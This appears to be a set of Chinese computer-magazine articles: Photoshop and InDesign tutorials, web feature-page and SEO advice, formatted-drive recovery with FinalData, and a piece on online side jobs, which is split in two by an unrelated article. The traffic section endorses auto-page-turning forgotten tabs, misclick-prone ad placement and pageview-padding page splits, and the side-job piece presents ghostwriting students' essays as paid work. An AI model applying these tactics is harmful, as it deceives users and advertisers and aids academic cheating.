**小提示**

*   Photoshop中打开文件的快捷键为Ctrl+O，或者在Photoshop空白处双击鼠标，同样能调出打开对话框。
*   如果要新建文件，可按快捷键Ctrl+N，或者通过Ctrl+鼠标双击快速调出新建对话框。
*   Photoshop工具箱中的所有工具，都有快捷键，将光标移到某个工具上停留一会，将会显示一个小提示框，标示该工具的名称及其快捷键。比如移动工具快捷键为M，随时按M键即可选中它，比用鼠标选择还快捷（注意，按快捷键时，输入法必须是在英文状态下）。

接着选择工具箱中的缩放工具（快捷键为Z），放大人物的头部。然后在图层面板（如果该面板没有显示，可按F7键将其调出）中，双击“背景”图层，在弹出的新建图层窗口中点击“确定”，将背景图层转换为普通图层（图层0）；并将图层的不透明度调整为50%。接下来点击下方的“创建新图层”按钮建立新图层（图层1），使用油漆桶工具将该图层填充上白色，并拖到图层0之下。以上一系列操作，是为了方便下面钢笔勾画操作。

接下来在工具箱中选中钢笔工具（快捷键为P），这时工具栏上显示的是钢笔工具选项，点选其中的“路径”模式。然后用钢笔工具勾画人物的头部轮廓。具体方法为：先在头部边缘任意处点击，创建一个锚点（小方块），然后在第二点处点击，这时两点之间会自动产生连线。如果点击第二点时不放开鼠标键，此时拖动，则直线会变成曲线，一直按着鼠标键不放并拖动，调整曲线使其与头部的轮廓线相符为止。再接下来在第三点处点击，则在第二与第三点之间又会产生连线，同样按住鼠标键不放并拖动，可以产生曲线。以此类推，勾画出整个头部的轮廓线，最后将光标移到第一个锚点上，此时会发现光标右下角出现小圆圈的图示。此时点击，则刚才所绘制的轮廓线便自动闭合成一个完整的封闭图形了。

接下来再新建一个图层，放在所有图层之上，并选中此图层。然后切换到“路径面板”；确定“工作路径”为选中状态，点击“用前景色填充路径”按钮，即可获得一个填充图形了。前景色我们可以自由设定。同样方法，进一步细化操作。

### 添加个性文字标识

图形有了，下面添加文字，并进行相应的装饰，完成一个完整的LOGO设计。

单击“文件→新建”，在打开的新建对话框中，设定文件的名称为“爱好者游戏频道标志”，宽600像素，高500像素，分辨率为默认的72像素/英寸。这里设置的大小，比实际的LOGO要大，是为了便于设计，等作品完成以后，可以根据实际需要重新裁剪图形。

**小提示**

*   使用钢笔工具绘制轮廓线，当绘制第三个锚点时，会发现曲线的形状非常难看，根本不是自己想要的。其实在绘制第三个锚点之前，可以用钢笔工具先点住第二点重新调整一下曲线，然后再绘制，线条就会顺多了。
*   在各种操作过程中，可随时按Ctrl++（或Ctrl+-）键放大或缩小视图，以便于我们的操作。如果视图放大后某些部分看不到，可按住空格键，此时光标变成手的形状，这时就可以拖动图像到任意部位了，放开空格键，则回到原先所选择的操作工具。

将前面制作的人物图形复制粘贴（Ctrl+C, Ctrl+V）到新建图像中，它会自动新建一个图层。然后选取工具箱中的文字工具（快捷键为T），根据需要输入相应文字。此时在工具栏中，显示的是文字工具属性值，可以设置颜色、字体、大小、风格等。如果有多行文字，则可以单击“窗口→字符”菜单命令，调出字符面板，在此可设置行距大小、水平间距、字体拉长或压扁等操作。（本例改编自网络教程）

**网络大补贴**

*   通过视频网站可以找到许多视频学习教程。以优酷（http://www.youku.com）为例，搜索“Photoshop”，可以找到上万个视频教程，学习起来非常形象。
*   如果你还没有Photoshop CS3这款软件，可以先下载试用版作为学习之后。通过一些专业下载站下载会非常快，如华军：http://www.onlinedown.net/soft/24247.htm。大家也可以通过迅雷搜索下载。

（流言）



# 好网编是如何练成的 网络专题的那点事

对于网络编辑来说，最重要的日常工作只有两个：内容采编与专题制作。上期和大家介绍了内容采编的步骤与技巧，今天再来和大家介绍一下网络专题的制作与窍门。
网络上关于专业制作技巧的文章有很多，但是基本上都是理论居多。而本文，将以技巧为主，更多的是为大家介绍一些笔者从多年实际工作中总结出来的经验窍门与独家秘籍。

## 好专题第一步：专题的选题

对于互联网来说，流量为王，这是绝对有别于传统纸媒。所以在制作网络专题时，第一考虑的要素就是点击的用户会有多少，所以在为网络专题选题时，就要考虑主题的热度及对用户的吸引力有多大。这里向大家介绍五种寻找热门选题的快捷方式：

### 搜索引擎热点排行

在搜索引擎中，一条词汇被搜索的次数越多，就证明相关的事件或是主题越受用户关注，那如果以此为主题制作专题，通常也会取得不错的流量。所以一个好的网编，应该养成每天关注搜索引擎热点排行的习惯。好的选题，往往就蕴藏其中。
谷歌热榜地址：http://www.google.cn/rebang/home
百度搜索风云榜地址：http://top.baidu.com/
有了这两大“榜”，做起专题那是个心应手呀

### 热门事件/网络红人

网络上从来不缺热点，热门事件、网络红人总是不停撞击着我们的眼球。而此类事件，往往短期内获得巨大的流量，甚至会让其所在频道、网站的流量翻几番。

### 本网站热点排行

前两条说的，属于大众的方法，但是不同网站之间是千差万别，不同主题的网站，其用户的口味也不尽相同。所以在前两天的基础上，还要充分考虑到本土用户的喜好。而获取本网站用户信息最有效的方法，就是关注本网站的热点文章排行。比如说，如果每周和每月的热点文章排行榜中，大部分都是与笔记本有关的内容，那就证明本网站的用户对笔记本的内容非常感兴趣，此时在制作专题时，就需要多多考虑笔记本方面的选题。

### 对栏目补充

网站的栏目再如何细分，也不可能做到面面俱到，而有些点，却又是用户非常关注的。比如说一个育婴的网站，一般是按年龄段来进行栏目分类，比如婴儿期、幼儿期等等，最多是按年龄来分栏目，比如1岁、2岁。但是很多用户是希望按照更细的时间段来划分，比如说按月，甚至按天。所以这个时候，就可以通过制作专题的形式，来对这些用户关注的栏目细节进行补充。

### 对内容提精

当一个网站运营的年头久了之后，数据库中的内容量就会变得非常庞大，往往都是几十万甚至上百万的量。而此时，要用户从海量的信息中找到那些最值得阅读的精华内容，就是一件非常烦人的事。这个时候，我们就可以通过制作专题，从这些海量的内容中提取精华。

## 好专题第二步：专题的制作

主题确定之后，开始制作专题。首先我们需要设计专题框架，通常都是用WORD来完成。具体的制作步骤就不细说了，大家参加工作时，老编辑都会教。这里说一些技巧注意事项。
有些大的网站专题的首页是由美编设计的，但有些小网站这活通常编辑就要“兼职”了，不管是谁来做，编辑最好要自己画出具体的样子，也好组织内容。

### 专题的页面长度

这里说的专题长度，是指页面长度。专题页面的长度不能太短，否则会显得内容不丰富。个人建议长度控制在一屏半以上（去掉头部导航、尾部导航的长度），四屏之内。意思就是鼠标向下滚动四次以内。

### 逻辑一定要清晰

不管是事件专题，还是应用专题，一定要有条有理、逻辑清晰。我们可以在专题页面中，适当地将文章分类，通常都会让专题达到条理清晰的效果。

### 专题的内容来源

制作专题时，首先考虑的是提取本身网站已有的内容精华，其次是通过搜索引擎进行搜集，再次是直接到相关的专业媒体进行转载，最后是向相关的专家、作者进行约稿。大家在具体操作时，可以根据实际情况，将这四种方式灵活运用。

### 内容的表现形式

内容具体用什么形式表现，要看专题的内容量，然后结合第一点。如果内容很少，仅几条，那完全可以把这篇文章的内容直接以专题的形式体现。如果内容量太多，那就可以以标题+链接的形式体现。如果内容量比较适中，就可以以文章+简介+链接的形式体现。总体的原则是让页面长度保持适中，且页面看上去内容丰富为准。注意，不管那种表现形式，都要注意图文并茂。

## 好专题第三步：专题的优化

本条是重点，因为专题不进行优化，用户在搜索引擎搜索相关内容时，咱们可能就不会获得好的排名，也就意味着我们放弃了搜索引擎背后的那部分用户。下面和大家说八点专题优化的技巧：

### 网页的布局

以往，我们制作页面时，都是用Table对页面进行布局，但是这样做，会让源代码中产生大量的HTML代码。而如果以div+css的方式进行页面布局，页面中的代码就会大幅度减少。代码的减少就意味着搜索引擎能够更有效的识别页面的内容。所以大家在制作专题时，尽量要求设计制作部门，用div+css的方式对页面布局。

### 关键字的确定

在上篇文章中，我们提到过关键字的问题。其实关键字是搜索引擎优化中，重要的一个环节，不管是添加文章、制作专题、甚至设计页面，都需要设定合适的关键字。关键字的选取，要遵循四个原则。
①符合用户搜索习惯。在设定关键字时，一定不能自己造词。比如说“本本”，这就不是一个有效的关键词，因为用户搜索时，基本上不会这么搜。正确的应该是“笔记本”
②有一定的搜索量。选取的关键字，应该每天都有一定数量的用户在搜索，否则也是无效的，因为没人搜索，就意味着带不来流量。具体的大家可以参照百度指数：http://index.baidu.com/
③竞争不应太激烈。这里说的竞争激烈，是指优化这个词的人不应该太多。比如说如果有一百个人或是公司在优化某一关键词，那我们就不要去考虑它了，基本上是优化不上去的。这里说一下判断关键字竞争度的小技巧，第一，看此关键字做竞价推广的人多不多。第二，看搜索结果页排名前20的网站中，小网站多不多（通常小网站能排在前面，都是经过优化的）。
④关键词不在于多，在于精，通常三个左右足矣。这里说的精，不是指关键字的搜索量有多大，而是指我们有一定的搜索量，且我们有把握将排名给做上去。

### 专题页面的标题

专题页面的Title标题中，一定要将选取的关键字给体现出来。这里给个小提示：我们可以将关键字与专题名称融为一体，让二者有效合一。

### 关键字描述、网页描述

这个比较简单，只要将专题页面源代码中的keywords标签与description标签进行适当的描述就OK。

### 图片加ALT标签

对于专题页面中出现的图片，应该用ALT标签加以描述。

### 关键字的密度

一个页面中，关键字的密度应该在2%~8%之间为宜。比如我们选取的关键字是“电脑爱好者”，那在整个页面中，“电脑爱好者”这个词出现的频率应该占所有词汇的2%以上，8%以下。

### 目录的层级

专题的目录层级越短越好，最多不能超过三层。
层级演示：www.cfan.com.cn/1层/2层/3层。

## 好专题第四步：专题的推广

专题制作好了，优化的也差不多了，下一步就是进行适当的推广，以此带来更多的流量。推广的方法有很多，但是作为一个专题，我们没有必要费太多的时间和精力去推广，大型的推广工作，通常也有专门的市场部门负责。所以掌握好以下几种常用的方法就可以了。

### 内部推广

专题上线后，一定要在本网站内相关的页面进行推广，比如说文字链推荐或是图片推荐。

### 外链的交换

可以在友情链接下面设置友情链接位，与其他网站进行相应的链接交换。

### 广告位的交换

可以在专题内，开辟专门的广告位，与其他网站进行广告的交换。

### 联合专题

对于一些重要的专题，可以几家网站联合制作，然后在这些网站同步上线及推荐。

### 软文推广

对于非常重要的专题，还可以围绕此专题写一些文章，进行软文推广。

# 网络钟点工

“我一会给你回电话，现在正做钟点工呢！”“什么？”“就是网络钟点工呀，最潮最酷的兼职方式！坐在电脑前，远程为别人提供很多帮助，业余时间就能轻松变成钱！”近日，在淘宝、拍拍等电子商务平台，“网络钟点工”服务大量涌现，标价约为每小时6元，不少年轻的白领、大学生等纷纷发布自己的服务内容和联系方式，体验网络时代的高级打工乐趣。

## 线上服务，内容丰富必须合法

江苏 菲菲 (http://shop33489684.taobao.com)
美女菲菲前段时间赋闲在家，在自己的淘宝小店增加了一个商品——“真诚为你提供优质高效的网络钟点工服务，只要在能力范围内的都可以洽谈，如聊天、文字录入、收发电子邮件、英语翻译、找资料、Q空间抢车位、代写博客、空间日志、帮忙网上选物、上架宝贝、购物、收集资讯、当闹钟叫醒等服务……为您解决一切烦心事，在您没有闲暇时间打理时，网络钟点工是您的得力助手。”她还有一个特别声明“……必须合法，不能对他人造成困扰和麻烦，请买家不要抱任何坏想法。”来找菲菲做网络钟点工的人很多，部分人提出视频了解的需求，被她拒绝了。还有一个顾客说工作忙，请她到世纪佳缘网站代为挑选女友候选人，但经常打听菲菲的私人问题，于是婉言谢绝了这单生意。

## 白领兼职新方式

### 第一桶金：

今年5月帮某重点中学的高一学生代写新概念作文，一篇60元，一篇65元。因为老师布置了38篇，学生写不过来了，他的舅舅找到了菲菲。

# 速成数据恢复工程师：找回分区被格式化的数据

本文，深入分析了误格式化产生的原因及解决方法，不但对数据恢复从业人员来说有很大的借鉴作用，即使是一般用户，也可以引以为鉴，更好地保护自己的数据。

## 业界探幽

CFan：据悉，IT巨头联想也开始推出“联想硬盘数据恢复服务”，这标志着联想开始进军数据恢复领域。这预示着什么？
业内人士：现在IT产品同质化的现象非常严重，各大IT厂商的竞争越来越激烈，各类IT产品的利润也被越摊越薄。在这种市场大环境下，联想将业务延伸向诸如数据恢复之类的IT服务，就不难理解了。而联想的进入，必然导致传统数据恢复市场的竞争加剧。当然，像飞客这样老牌的数据恢复服务商，在业界积累多年，有着许多优势，对他们来说，就是在新环境下进一步整合优势资源。
不过对于个人来说，这些应该是好事。首先，作为一个用户，选择数据恢复商的余地更大了，就有可能得到更好、更优质的服务；另外对于从业人员来说，就业的机会也大大增加了。

★记者与联想在北京的某客户服务中心联系之后获悉，联想硬盘数据恢复服务除针对联想自身的产品之外，也接受其他品牌电脑（包括DIY）硬盘的数据恢复业务，参考收费情况大致如下表（具体情况请咨询当地维修站）：

| 故障类型 | 收费标准 |
| :--- | :--- |
| 软件故障（误删除、病毒、系统故障） | 500元 |
| 硬件故障（震荡、撞击、电路板或磁头损坏、机械故障等）<br>不需要开盘即可恢复数据 | 800元 |
| 需要开盘才能恢复数据<br>idea系列 | 1500元 |
| 需要开盘才能恢复数据<br>Think系列 | 2200元 |

## 任务实战

在平时工作和学习的过程中，有些人可能会遇到这样的情况：打开“我的电脑”后，鬼使神差地在某个盘符上点击右键，选择“格式化”，等到反应过来之后才发现文件已经不复存在了。追悔莫及（也有可能是别人有意或故意破坏你的数据）。根据飞客多年的恢复经验统计，误格式化的操作基本可以归类为三种情况。

误区一：装系统的时候使用一些DOS程序来格式化系统分区。可是，他真的是格式化了真正的系统分区吗？大家都知道，以前的很多DOS程序，在DOS下看磁盘的分区只能看到FAT格式的分区。假设有朋友的磁盘分区文件系统情况如下：
C: NTFS
D: FAT32
E: NTFS
在DOS下看，D:\分区显示的为C:\，而系统根本就没有在这个FAT32的分区上，很多人因此误格式化。然而，FAT32的文件系统，一旦格式化了，那就意味着数据丢失很难恢复，虽然可能做的不是低级格式化，文件的目录结构也可能还在，但一般情况下，稍微大一些的文件就不完整了。如果使用的是一些磁盘管理软件的话，很大程度上会连目录结构都破坏了。
如果使用了低级格式化，那就彻底没救了，目前国内还不能恢复被清零的数据的。

误区二：有一位朋友在装操作系统的时候，到了选择安装位置时，他看到那个分区的大小就是系统盘看到的，于是就选择并且格式化了。等装完系统一看，都变成一个分区了。细细一想才明白过来，19XXXMB的大小，被错看了成了以为是系统分区的19XXXG的大小，这是由于文件系统出了问题。整个盘在装系统的时候变为了一个大分区，可这位朋友根据经验，也没细看，结果把200G左右的大小当成了20G的大小，格式化了。看错了分区大小的朋友要幸运一些，除C分区的数据会有损失以外，其他分区上的数据基本上还是可以恢复的。

误区三：使用PQ之类的分区调整工具，反复在原来的大盘上划分出一个分区或者合并两个分区等操作，导致盘符混乱。有的分区在磁盘上的物理位置比较靠后，可分配到的盘符却比较靠前，虽然暂时用着没问题，但在下次重装系统时问题就发生了。在安装操作系统时，显示出来的磁盘顺序是物理顺序，而不是逻辑顺序，这时不少朋友就会稀里糊涂把所谓的“要格式化的分区”给格式化了。

下面我们将教授大家一种解决方法，学习这种方法之前，要明白文件系统简单的工作原理。以FAT32文件系统为例，整个硬盘其实分为五个区域：分别是MBR（主引导记录）区、DBR（操作系统引导记录）区、FAT1（文件分配）区、FAT2（文件分配）区、DIR（文件目录）区和DATA（数据）区。我们放在硬盘上的数据目录是放在硬盘的DIR区，也就是文件目录区，数据本身是以链式存储的方式存放在硬盘的DATA区，也就是数据区。当我们对硬盘进行相应的高级格式化操作时，只是对硬盘的DIR区进行了相应的操作，存放数据的DATA区并没有作任何改动，恢复数据的时候就是利用软件对分区的数据区和目录区进行扫描，然后恢复出丢失的数据，下面就给大家介绍一款能恢复格式化之后的数据的软件：FinalData。

### 实战：找回分区误被格式化的数据

FinalData（试用下载：http://www.onlinedown.net/soft/66570.htm，此试用版本有功能限制）以其强大、快速的恢复功能和简便易用的操作界面成为IT专业人士的首选工具。当文件被误删除或分区格式化以及磁盘根区被病毒侵蚀造成文件信息全部丢失之后，FinalData都能够迅速地恢复出大部分数据。
文件丢失后，启动FinalData，点击菜单项“File→Open”（文件→打开），在弹出的对话框中选择要进行数据恢复的分区或硬盘。选中相应的分区或硬盘之后点击OK按钮，弹出对话框：请用户选择扫描的起止扇区，在对话框中填好起止扇区（Begin），点击OK，软件开始对分区进行扫描。
扫描完成后，会在软件的左侧显示目录树结构。点击相应目录，在窗口右侧窗格中即会显示目录中的文件。选择需要进行恢复的文件，点击鼠标右键，在弹出的快捷菜单中选择Save（保存），弹出对话框，选择恢复出来的文件所要保存的位置，最后点击Save（保存）按钮，即可将所选中的文件保存到相应的目录中。

+   小提示：需要注意的问题
★尽量把需要做恢复的硬盘以从盘的形式挂到其他可以正常使用的机器上。
★进行了误格式化操作之后，千万不要向被格式化的分区或硬盘中写入任何的数据，一旦造成数据的覆盖则回天无力了。
★恢复出来的数据千万不要再放回原来的分区下保存，否则会造成尚未恢复的那些数据被覆盖。

从上面的实例可以看出，在进行删除、格式化等操作后，一般大家会认为数据已被清除干净了，但实际上不少数据依然保留在硬盘中。通过特殊软件或方法，还可以恢复出来。这就涉及到数据删除安全的问题（与数据恢复恰好反过来了）：如果你是真正想彻底删除某些数据时，应该怎么做？比如敏感部门报废的硬盘，或者是捐献给别人的硬盘，怎么才能确保其中的数据删除干净不可恢复？这时就需要用到一些特殊的工具，如360文件粉碎机（下载地址：http://www.360.cn/down/soft_down12.html），下载解压后，直接双击其中的360FileKiller.exe即可运行软件。可以点击“添加文件”将要粉碎的文件添加进列表中，也可以直接从资源管理器中将要粉碎的文件拖放到列表中，最后勾选要粉碎的文件，再点击“粉碎选中文件”按钮即可删除。文件粉碎机之类的软件，不只是简单删除文件，还会以一些垃圾数据覆盖原文件的数据，即使被恢复，也是无意义的数据。因为它是不可恢复的，所以大家使用前一定要确认清楚，以免误删。
（飞客数据恢复/聂阳）

## 传统服务，网络宣传线下延伸

网络钟点工提供的服务，还有一类是以网络为宣传平台为实际生活提供的家政服务，比如同城速递、代购、买票、接人、洗衣、打扫卫生、看护孩子、代排队、代缴各种费用、送花、代挂专家门诊号、陪病人看病等，通常沿袭正常的家政服务收费。但在两类服务的融合越来越紧密，很多人提供的服务二者都包含。如果你是网络钟点工，请注意保护好自己（尤其是女性），充分沟通了解客户的需求，并用支付宝交易保障权益；如果你是顾客，需要的服务涉及账号、密码时要慎重，如果按事件付费而不是时间，可能更实惠。
在网上接受订单，出售自己的空闲时间，既可以帮助别人还有不错的收入，何乐而不为？门槛低、风险小、发展空间大，一起来加入“网络钟点工”阵营吧！

+   小提示：通过网络完成的服务范围广，主要有：
适合短期承接：整理资料、制作表格、下载歌曲、陪聊、打字、电脑维护、代写博客、翻译、网络代购等
适合长期承接：开心网收菜、偷菜、抢车位等、踩空间、收邮件、打理网店、网络家教等
收费：通常是10分钟1元，半小时3元，30分钟以上不到1小时按1小时计算，约为5-6元，包天、包月、包年更优惠。网络宣传推广等创造性劳动可以较高价格成交。

# 平面设计师生存手册：在报刊社寻找一席之地

平面设计的基本美学原理相似，但是平面设计师的职业却各不相同，承接的业务各有不同的要求。对于初学者来说，选择“编辑设计”这一方向比较容易入行。首先是全国的报刊杂志众多，职业岗位比较多。其次，编辑设计有难有易，可以先从简单易学的打字排版开始做起，入行门槛较低，一有机会再慢慢向上发展，终有所成。

## 芝麻开门

CFan：一本杂志中，平面设计师处于什么样的位置？

业内人士：平面设计师在杂志中，国内习惯称之为美术编辑（简称美编）。正常的编制有三名：一名设计总监，两名助理美编。一些小刊为了节约成本，可能只有一名设计人员，这样杂志的设计质量就无法保证了。

设计对于杂志是极其重要的。因为外形观感就是一本杂志的“脸面”，糟糕的设计，会让读者看起来很不舒服，肯定会影响到读者的订阅。

CFan：应聘杂志美编有没有什么技巧？

业内人士：首先要收集各方面招聘信息，挑选一些自己想去的杂志，然后去多了解这些杂志。比如买一些该杂志好好研究它的版式设计风格，去杂志的论坛看看读者们的反应等。接下来精心准备自己的应聘作品，最好有能针对该杂志的版式改进的作品，如杂志的专题报道的设计、封面设计、对页设计等。另外，再提交一些非杂志设计类的作品，比如海报、标志等，给自己加分。

另外我个人的经验，开始入行的时候不一定非要找非常大的杂志，一些小报刊容易进入，这样好有一个实习锻炼的机会。

## 任务实战

上期我们说到，Photoshop是每一个平面设计师都必须掌握的一个工具。而对于杂志美编来说，还需要掌握一些专业排版设计软件。这类软件，现在业内比较流行的是InDesign，下面我们将通过一个实例简单了解一下它的使用。另外，当你在应聘时，还需要了解要去应聘杂志使用的是哪种软件，因为国内的报刊，使用方正飞腾的也不少。当然，排版类软件的操作有许多共通之处。学会一个，再学其他同类软件会比较容易。

### 实战：我给CFan设计版面

假设要去某杂志应聘美编，最好的办法是什么？建议找出该杂志的往期文章，重新设计排版，溶入自己的创新，这样既方便找素材，又能做到有的放矢。下面以给CFan设计版面为例。设计之前，可以用铅笔先在A4纸画出版面设计的示意图，然后照着示意图在软件中操作。本例最终的效果如图1所示。

### 版面大小了然于胸

版式设计，首先要明确版面的大小，每本杂志都会有固定的尺寸。作为一个练习，这个数据可通过尺子量实体刊物获取。

CFan杂志的版面大小为：宽185（单位毫米，下同），高260，上下左右边距分别为20、15、17、13，分3栏，栏间距为5。

有了这些基本数据后，即可启动InDesign（试用下载：http://www.adobe.com/cn/downloads/），点击菜单“文件→新建→文档”（快捷键为Ctrl+N），将默认宽和高改成185和260（见图2），再点击“边距和分栏”按钮打开边距与分栏设置对话框，按前面所获取的数据一一填写，最后点击“确定”，新文档就建立完成了。

+   - ★文档创建之后，可以看到一个大黑框，这表示页面的实际大小。大黑框里面还有一个小一些的黑框，这就是所谓的版心，大部分的设计元素都包含在版心中。另外在最外层还有一个红色的线框，这就是所谓的出血线，默认情况下出血线会比页面边框多出3毫米。在新建文档对话框中，点击“更多选项”按钮展开后，可以自定义出血线的距离。出血是为了确保页面边缘有色彩的地方，不会因为裁切误差而导致留白的现象。
- ★想要重新设置页面大小及出血，可执行“文件→页面设置”菜单命令。想要重新设置边距和分栏，可执行“版面→边距和分栏”命令。

### 文字可以多姿多彩

杂志的版面设计中，文字和图形是最重要的元素。导入文字的方法有多种：少量文字，如文章大标题，可直接点击工具箱中的文字工具（快捷键为T），然后在页面中画出一个文字框，接下来输入文字即可（如本例的“凿壁偷光创建超酷LOGO”）。然后像在Word等软件中一样，拖动鼠标选中输入的文字，再在上方工具栏中设置文字的大小、字体、风格等。InDesign中的文字工具要比一般字处理的功能强很多，比如在工具栏右侧有两个大的T字图标，改变它们的数值就可以轻松将字体变宽或变瘦（见图3）。

选择工具箱中的选择工具（黑箭头图标，快捷键为V），然后拖动文字框，可随意调整文件在版面中的位置，拖动文字框四周的小方块则可以随意调整文字框的大小。点选文字框后，按Del键可以快速删除它。

大段的文字一般为内容编辑提供的TXT文本文件，这时可执行“文件→置入”（快捷键为Ctrl+D）打开置入对话框，选中相应的文本文件点击“打开”，这时标箭头变成一个文字块的形状，在页面任意处点击即可导入文本了。如果导入文字前选中了某个文字框，则文本导入该框中。如果是点击页面某个栏，则导入该栏中。如果文字框放不下所有文字，这时在文字框右下角会显示一个红色的小方块，点击该方块后在页面其他空白处点击即可继续置入。一页排不下，可新建页面继续置入到下一页中。

在InDesign中很容易为文字设置特效。选中文本框后右击它，选择“效果”，它下面的子菜单，相信用惯了Photoshop的同学会眼前一亮，两者非常相似。本例选择“投影”，在打开的对话框中，设置投影的颜色（调成灰色调）、距离、角度及不透明度后，再将“扩展”设置为100%，即会得到立体字效果了。注意：调整效果时最好勾选左下角的“预览”，这样可以即时看到调整的效果。

### 图片特效轻松做

在图3所示的文章题图中，右侧题图有一个淡入渐变的效果，实际上在InDesign中可以轻松完成，无需在Photoshop等软件中预先处理。

置入图形的方法与置入文本文件的方法相同。图形置入后，右击它，选择“效果→渐变羽化”，在打开的对话框中，调整“渐变色标”就可以自由控制渐变的效果了。默认情况下渐变类型为“线性”，也可以选择“径向”，形成放射形渐变效果。

+   - ★在文字框的右键菜单中还有许多其他功能。比如选择“锁定位置”，可以将设计好的文字元素位置固定，以免后续的误操作。选择“描边粗细”可以为文字添加边框，选择“交互→转换为按钮”可以将文字变成超链接按钮（一般用于导出PDF格式）等。

# 好网编是如何练成的 流量就是RMB！

上两期，介绍了网编的两大基础工作：内容维护与专题操作。今天再来介绍一项最重要的内容：做流量。对于绝大多数网站来说，流量就是其生命线。而且很多网站在对网编进行考核时，也都会把文章的点击量或是频道流量作为重要指标。所以想成为一名优秀的网编，学会提升流量几乎是必须的。当然最重要的一点就是流量直接关系到了你每月的收入是多少。下面呢，笔者就来一个技巧大放送，全部是私人秘籍哟，希望大家不要外传。

## “特色内容”就是吸引人

网站内容有特色，用户自然喜欢常回来看看。所以先把内容建设好才是王道。这里说的内容不仅仅是传统意义上的文章、资讯等，也可以是其他方面的东东，大家可以从以下五个方面入手。

+   1. 特色栏目。比如现在好多网站都在做访谈栏目，通常对于行业网站，非常适用。
2. 优势内容。这个不用说了，就是你网站内容较之同类网站不一样的地方。
3. 英雄人物。对于社区类站点尤其重要。
4. 特色模块。比如一些SNS网站里的争车位游戏。
5. 特色服务。比如免费网站策划、免费SEO优化、免费排名查询等。

## 流量万年不变增长法：“标题党”

本条在前几期的文章做过一些介绍。好的标题，不仅能让用户有点击的冲动，而且还能达到SEO优化的作用。不过注意，标题不能与内容毫无关联，或是对内容过分夸张，相差太大，这样容易引起用户反感。

## “栏目细分”这个真的很重要

网站栏目相当于城市的路牌，用户能不能在你站里找到需要的内容全靠它。所以栏目分类一定要根据用户实际需求划分。要合情、合理。有可能的话尽量细分栏目，这样做一是方便用户找内容，二是设置得当的话，对SEO有作用。说一个实例：笔者曾经管理过一个IT网站，接手之初时，其学院频道下有一个XP栏目，主要是介绍XP相关知识。由于XP是主流操作系统，所以此栏目文章更新速度很快，不长时间就积累了几千篇文章。按照常理，XP如此受用户关注，随着文章量的增加流量也应该增加才对，可实际情况却是PV增长缓慢。经过对流量数据分析后发现，原来文章内容虽然增加了，但用户查找内容反而越来越不方便，没有人愿意去那上百页的文章列表中进行检索，依旧是看完前几页的文章就走人。所以虽然内容多却留不住用户。情况摸清楚后我们马上对XP栏目进行了改版，针对用户的实际需求细分出了若干下属栏目，结果流量大增，IP亦有增长。

## 流量第一增长点：“专题”

上一期的文章，专门介绍了专题的制作，不再赘述。这里再说说在提升流量方面，专题的主要作用在那里：

+   1. 当网站的文章量极大，无法对某一些具体的点进行栏目细分时，用专题进行补充或深入介绍。这时相当于通过专题将数据库中同一主题或有关联的文章进行有针对性的推广。
2. 针对搜索引擎进行优化。因为专题有专门的目录，且内容专注、内链丰富。可以说一个专题就是一个小型的个人网站。所以搜索引擎对专题的权重很大，如果做专题时进行一定的优化，效果极好。

## 网站好不好，全凭“导航”带

导航相当于一个网站的指示牌。如果指示牌明确，用户就能快速找到自己想要的东西，自然就愿意常来。下面列举一些相关的注意事项：

+   1. 网站导航尽量不要用Flash、Javascript等特殊效果，同时要一目了然。
2. 除了网站头部统一的全站导航外，最好各频道再制作一些有针对性的导航。
3. 要随时随地让用户找到各频道、栏目的入口，能让用户方便地检索到感兴趣的内容。

## “娱乐题材”抖三抖，网站流量上得快

大部分用户上网都是以娱乐为主的，而且从实际数据来看，网站内的娱乐版块，通常也是流量最高的。所以不管什么内容，什么类型的站，尽量地挖掘娱乐题材是增加网站PV的王道。比如IT类的网站，可以增加明星壁纸栏目；再比如汽车类的网站，可以增加车模方面的内容。其他的大家自己发挥吧！

## 互相帮助是王道，“频道之间要互动”

让用户多多往返于不同的频道，才能增加用户黏性，有效的提升PV流量。具体的方法很多，需要大家去创造。这里举两个简单的例子：如我们在全站所有的文章内的“论坛”一词上，加上超级链接，用户点击时直接进入论坛页面；再如我们在“密码”一词上，加上超级链接，用户鼠标移上去时，展示站内关于密码攻略的5条文章列表。

## 一篇文章分N页，“每篇文章要分页”

若内容页中的正文内容太长，不但会增加页面体积，使页面打开变得缓慢；同时也会使用浏览起来极不方便(最重要的一条，多一个分页就代表多了N个PV)。所以适当的分页是非常有必要的。至于多长分一页，大家根据各自实际情况来，只要别引起用户反感就行。个人认为每页的正文内容保持在二屏是比较适宜的。

## 后台偷偷赚流量，“自动翻页要设置”

很多用户在浏览分页多的文章时，很不习惯不停地翻页，特别是对于图片类的文章，更是如此。所以此时设置一个自动翻页的功能，实在是便民之举。而且有相当一部分网民在打开一个新网页后，就忘记了关闭之前的旧网页，这个时候如果那个页面能自动翻页，流量等于是白捡的。

## 红花就要有绿叶，“学会制作图文新闻”

在文章内加入适量的图片好处主要有三：一能让文章图文并茂，变得生动活泼；二能增加文章的长度，使分页更容易；三能增加用户黏度。因为图文内容比纯文字内容，更吸引用户。笔者强烈建议大家多做图文内容。其实这种方法在各大门户网站已经很普及了，比如QQ、MSN等，直接将一些新闻以图片+说明的形式展现。

## 隐藏“地雷”到处有，“为关键字加链接”

如果条件允许，将文章中的一些热门关键字、文章内的图片等做上超级链接，可以链接到相关的栏目或是专题。这个需要一定的技术支持，所以个人站长可能需要找人合作实现。现在很多广告联盟都有这种形式的广告，大家可以尝试。

## 来钱第一增长点，“设置图文推荐位、广告位”

充分利用文章正文页添加适量的图文推荐及广告位，这些推荐位和广告位可以做站内推广用，也可以与其他网站进行链接互换。重点位置有四个：

+   1. 标题下方。以文字链接为主。
2. 文章正文中。以文字链接为主。注意，这里说的链接和第四项说的关键字链接不是一个概念。
3. 正文右侧。尽量不要设置在左侧，因为网页的上下滚动条在右边，网友在浏览文章时，鼠标指针通常也是在这个位置，如果遇到感兴趣的链接，点击起来很方便，而且偶尔也会发生误点链接的情况。
4. 正文下侧。

至于链接、广告的具体表现形式和内容，这里就不赘述了，只强调一点：标题及链接的内容怎么吸引人怎么设置，适当引入娱乐元素。

## 这个真要有，“添加网摘按钮”

在醒目位置加上收藏到各大网摘站的链接或按钮，方便用户收藏。而用户收藏的同时，就等于为我们做了一次推广。

## “做好SEO基础优化”，搜索排名就靠前

作为网编，只要将基础的SEO优化工作做好就OK。通常网站会制订一些SEO标准，比如页面标题的设置、关键字密度、keywords设置、description设置等。网编人员要严格执行就好。

## 你不是一个人在浏览，“添加互动模块”

如典型的文章评论、文章感受投票等。人性化的互动产品，会增加用户体验，提高页面黏性。而且互动的同时PV亦会随之增长。

